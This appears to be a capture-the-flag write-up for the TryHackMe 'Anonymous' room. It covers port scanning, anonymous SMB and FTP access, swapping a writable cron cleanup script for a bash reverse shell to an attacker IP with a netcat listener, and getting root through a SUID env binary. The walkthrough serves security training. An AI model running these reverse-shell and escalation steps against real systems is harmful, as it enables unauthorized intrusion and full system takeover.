






# Anonymous-TryHackMe

This is a writeup for THM box - Anonymous
https://tryhackme.com/room/anonymous

## namp
Doing a nmap scan we found 4 ports open



## SMB
Connecting to the smb share and pressing `enter` when we asked for the passwd we find

[]
entering the `pics` dir we get two images but they are of no use.



    
					corgo.jpg                                                   puppos.jpg


## FTP 
connecting to ftp we get 3 files 


***
Interesting files are 
###### `clean.sh`
Notice we have write permission to this file.
```bash 
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi

```

######  `removed_files.log`
It contains the log written by `clean.sh`
```text
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete

```

As `clean.sh` is run periodically we can add our own script to it and get a shell .
Using [revshells](https://www.revshells.com/) we modify `clean.sh` as 
```bash
#!/bin/bash
sh -i >& /dev/tcp/10.17.52.250/5050 0>&1
```

and we put the file on the ftp server 
```
ftp> put clean.sh 
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||31290|)
150 Ok to send data.
100% |************************************************************************************************************************************************|    53      958.47 KiB/s    00:00 ETA
226 Transfer complete.
53 bytes sent in 00:00 (0.10 KiB/s)
ftp> 
```

Now we litsen on our machine with the following  command
```bash
nc -lvnp 5050
```

After 1 min we get a shell on the box


looking for `SUID` on the box we get 
```bash
$ find / -perm -u=s -type f 2>/dev/null
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9066/bin/mount
/snap/core/9066/bin/ping
/snap/core/9066/bin/ping6
/snap/core/9066/bin/su
/snap/core/9066/bin/umount
/snap/core/9066/usr/bin/chfn
/snap/core/9066/usr/bin/chsh
/snap/core/9066/usr/bin/gpasswd
/snap/core/9066/usr/bin/newgrp
/snap/core/9066/usr/bin/passwd
/snap/core/9066/usr/bin/sudo
/snap/core/9066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9066/usr/lib/openssh/ssh-keysign
/snap/core/9066/usr/lib/snapd/snap-confine
/snap/core/9066/usr/sbin/pppd
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
/bin/su
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
```

Using https://gtfobins.github.io/ we fing env binary to be useful and we get the  root shell on the system.


